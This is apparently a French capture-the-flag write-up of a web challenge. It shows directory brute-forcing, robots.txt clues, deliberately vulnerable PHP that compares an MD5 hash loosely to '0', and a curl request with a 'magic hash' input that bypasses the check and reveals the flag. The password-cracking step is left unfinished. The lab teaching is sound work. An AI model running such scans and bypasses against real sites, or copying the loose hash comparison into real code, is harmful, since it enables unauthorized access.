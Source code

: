 # Website INEAT

Après un petit tour du site, on ne trouve pas grand chose d'intéressant. On va donc utiliser un petit outil de bruteforce de répertoires.
Personellement, j'ai utilisé `diresearch.py` dispo sur github.

```
python3 dirsearch.py -u https://website.ctf.ineat.fr -e php,asc,prk -r
```

On trouve deux trois trucs intéressants :

> [09:39:55] 301 -  169B  - /files  ->  http://website.ctf.ineat.fr/files/  
> [09:39:55] 403 -  555B  - /files/  
> [09:39:58] 200 -   21KB - /index.php  
> [09:40:07] 200 -    1KB - /robots.txt  

On commence par aller jetter un oeil au fichier `robots.txt` dans lequel on trouve certaines choses intéressantes :

```
[...]
Disallow: https://website.ctf.ineat.fr/secured/flag
Disallow: https://website.ctf.ineat.fr/__secured-backup.tar.gz.gpg
Disallow: https://website.ctf.ineat.fr/INEAT{th1s-1s-n07-th3-fl4g} <-- l'humour de Jordan
```

Le premier et le troisième lien sont de baits, on s'intéresse donc plus en détail à notre archive. Il s'agit d'un `.tar.gz` chiffré avec GPG. Faute de clé, il va falloir casser le mot de passe.

[A compléter]

On a donc extrait les fichiers suivants :

```text
.
├── __secured-backup.tar.gz
├── fade.gif
├── files
│   └── style.css
├── index.php
├── not-the-flag-you-can-pass.gif
└── robots.txt
```

Le fichier `index.php` devrait contenir notre bonheur. Après avoir remplacé les noms abominables des variables par quelque chose de respectable et fait un peu de ménage, on se retrouve avec quelque chose qui ressemble à ça :

```php
$hash = hash("md5", $_POST["h1"]);

//Funny php :)
if( strpos($_POST["h1"], "hello") !== false > 0 && $hash == "0" ) {
  echo "<!-- Bien joué le flag est ".$flag."-->";
}

```

Notre mot de passe est donc hash en MD5 avant de passer dans un if un peu étrange.  
La suite demande en réalité quelques connaissances (ou recherches) sur les bizarreries de PHP. Il faut savoir qu'il existe un bug relativement connu de PHP concernant les comparaisons de hash qu'on appelle les "Magic Hashes" (il existe probablement un nom plus sérieux que je ne connais malheureusement pas). Plutôt que tout - mal - réexpliquer, je vous laisse jetter [un coup d'oeil ici](https://www.whitehatsec.com/blog/magic-hashes/) pour en apprendre un peu plus.

Globalement pour résumer, quand un hash débute par "0e" et que - pour une raison obscule - on le compare à "0", le test passera systématiquement. Il nous faut donc trouver une chaine qui preduit un MD5 qui :
* Commence par "0e"
* Contient "hello"

Une bonne liste de collisions [peut-être trouvée ici](https://github.com/spaze/hashes/blob/master/md5.md).

On prend par exemple `md5(0rCCFVK5hello) => 0e341458689020068004009380684426`
Il ne nous reste plus qu'à envoyer tout ça.

```
$  curl -s https://website.ctf.ineat.fr/index.php --data "h1=0rCCFVK5hello" | grep flag
<!-- Bien joué le flag est INEAT{w34k_c0mp4r4is0n_f4iL}-->
```
